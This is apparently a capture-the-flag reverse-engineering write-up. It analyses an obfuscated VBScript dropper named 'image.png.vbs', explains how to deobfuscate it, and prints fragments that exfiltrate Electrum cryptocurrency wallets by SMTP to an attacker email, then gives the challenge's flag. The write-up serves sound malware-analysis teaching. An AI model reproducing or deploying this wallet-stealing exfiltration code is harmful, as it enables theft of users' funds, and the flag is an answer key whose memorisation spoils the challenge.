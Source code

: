 # Give My Money Back 

### Category

Reverse

### Description

Joel sat at his desk, staring at the computer screen in front of her. She had just received a strange email from an unknown sender. Joel was intrigued. She hesitated for a moment, wondering if she should open the email or not. But her curiosity got the best of her, and she clicked on the message. Your goal is to help Joel find out who stole her money!

**Warning : The attached archive contains real malware, do not run it on your machine!** Archive password: infected

The flag corresponds to the email used for the exfiltration and the name of the last exfiltrated file, e.g. Hero{attacker@evil.com|passwords.txt}.

Format : Hero{email|filename}<br>
Author : xanhacks

### Files

- [GiveMyMoneyBack.zip](GiveMyMoneyBack.zip)

### Write Up

The ZIP archive contains another CAB (Microsoft Cabinet archive) archive.

```bash
$ 7z -pinfected x GiveMyMoneyBack.zip
[...]
$ file edf576f75abda49a095ab28d8a822360387446ff3254544ae19c991a33125feb
edf576f75abda49a095ab28d8a822360387446ff3254544ae19c991a33125feb: Microsoft Cabinet archive data, many, 15058 bytes, 2 files, at 0x2c +A "description.txt" +A "image.png.vbs", ID 2849, number 1, 9 datablocks, 0x1203 compression
```

You can extract the CAB archive using `7z` or `WinRAR`. This archive contains two files :

- `description.txt` : Useless file that contains text.
- `image.png.vbs` : Obfuscated VBScript file.

Here is the content of the VBScript file :

```vbscript
dIM jJkmPKZNvhSgPGmVLdvBVgOimreRTqiaEDiOcfNqy, AxEjAhgOVVhnXPrQQdPpAItXlqhuIRHOuDWWhvoyp, FwwcltIiESLKzggUCrjiaEUtjbmpvvGzwJNhoLFSp
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
[...]
axEjahGoVVhnxPRQQDPPaiTXLQhUIRhouDwwHvOyp = splIt(jjkMPKzNVhSgpGmvLdVBVGOimrerTQIaeDiocFNQY, chr(eVaL(75684/1802)))
for each MqNbrDAQjYRIwUnepBXnOsmlQlLuaaeTTwAchSFjz In AxEjahGovVHNxprqQdPPAITXLqhuiRHOuDwwhVOyP
FWwCltIiEsLkZgGUCRjiAEuTJbMpVVgZwJNhOLFSp = fwWCLtIieslKZgGUcrjIaEUTJBmPvvgZwjNHoLfSp & Chr(eVaL(MqnBrdaqjYRIwUnEPBxnoSMlqLluAaeTtwAchSFJz))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
SUb LXTvAQufKFkHMxJwGYFOsFUwJcYBTRDPuPUdadnmD
eval(eXecUTe(fwwCltiieslkzggUCrJIaeUtjBmPvvGZwJNHoLFsp))
enD sUB
FnCtqZiRWLtyCeayCzQdIrDKqrIZAkwRIzBsCpRXs
```

You can replace the line `eval(eXecUTe(fwwCltiieslkzggUCrJIaeUtjBmPvvGZwJNHoLFsp))` by `Wscript.Echo (fwwCltiieslkzggUCrJIaeUtjBmPvvGZwJNHoLFsp)` to print the unobfuscated file.



```vbscript
> cscript image.png.vbs
[...]
Set Flds=iConf.Fields
Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername")    = "bmwqia84@mail.ru"
[...]
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Roaming\Electrum\wallets\default_wallet"
iMsg.Send
[...]
```

The script exfiltrates several cryptocurrency wallet (like `default_wallet`) via STMP using the email `bmwqia84@mail.ru`. So, we obtain the flag is `Hero{bmwqia84@mail.ru|default_wallet}`

### Flag

Hero{bmwqia84@mail.ru|default_wallet}
